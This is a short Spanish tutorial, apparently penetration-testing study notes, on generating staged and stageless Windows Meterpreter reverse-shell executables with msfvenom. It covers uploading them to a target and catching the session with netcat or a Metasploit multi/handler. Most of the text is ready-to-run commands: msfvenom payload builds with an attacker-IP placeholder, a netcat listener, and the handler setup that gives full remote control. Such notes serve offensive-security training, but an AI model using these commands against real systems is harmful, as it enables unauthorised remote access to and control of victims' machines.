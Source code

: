 **Generación y uso de shells Meterpreter staged y stageless con netcat**

---

### 1. Diferencia staged vs stageless

* **Staged:** Payload dividido en etapas; primer payload pequeño conecta y descarga segunda etapa (más grande).
* **Stageless:** Payload completo; conexión única sin descarga adicional.

---

### 2. Generar payloads con msfvenom

**a) Staged (default):**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Atacker-IP> LPORT=<PORT> -f exe -o staged.exe
```

**b) Stageless:**

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Atacker-IP> LPORT=<PORT> -f exe -o stageless.exe
```

---

### 3. Subir `staged.exe` y `stageless.exe` al target

* Por SMB, FTP, webshell, PowerShell, etc.

---

### 4. Intento de catch con netcat

* Listener netcat:

```bash
nc -lvnp <PORT>
```

* Ejecutar payload en target:

```cmd
.\staged.exe
.\stageless.exe
```

---

### 5. Resultado esperado

* **No funciona correctamente con netcat.**
* Meterpreter usa protocolo específico y múltiple etapas que netcat no interpreta ni responde adecuadamente.
* Netcat solo muestra conexión raw sin shell usable ni interacción Meterpreter.

---

### 6. Manejo correcto

* Usar **Metasploit multi/handler** para recibir payload Meterpreter:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Atacker-IP>
set LPORT <PORT>
run
```

* Handler interpreta protocolo y completa etapas, habilitando control completo.

---

### 7. Conclusión

* Netcat es insuficiente para manejar payloads Meterpreter staged o stageless.
* Solo funciona para shells simples (cmd, bash).
* Meterpreter requiere listener especializado (Metasploit).

---
